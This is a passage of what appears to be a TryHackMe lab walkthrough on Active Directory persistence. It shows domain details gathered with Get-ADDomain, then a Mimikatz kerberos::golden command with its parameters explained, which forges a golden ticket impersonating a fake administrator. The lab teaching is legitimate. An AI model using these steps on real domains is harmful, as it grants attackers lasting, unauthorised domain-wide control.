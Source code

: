```markup
DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc
Forest                             : tryhackme.loc
InfrastructureMaster               : THMDC.za.tryhackme.loc
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=za,DC=tryhackme,DC=loc}
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

Now that we have all the required information, we can relaunch Mimikatz:

```markup
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 

mimikatz #
```

Once Mimikatz is loaded, perform the following to generate a golden ticket:

```markup
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID>
```

Parameters explained:

- **/admin** - The username we want to impersonate. This does not have to be a valid user.  
- **/domain** - The FQDN of the domain we want to generate the ticket for.  
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/krbtgt** -The NTLM hash of the KRBTGT account.  
- **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)  
- **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)  
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.     
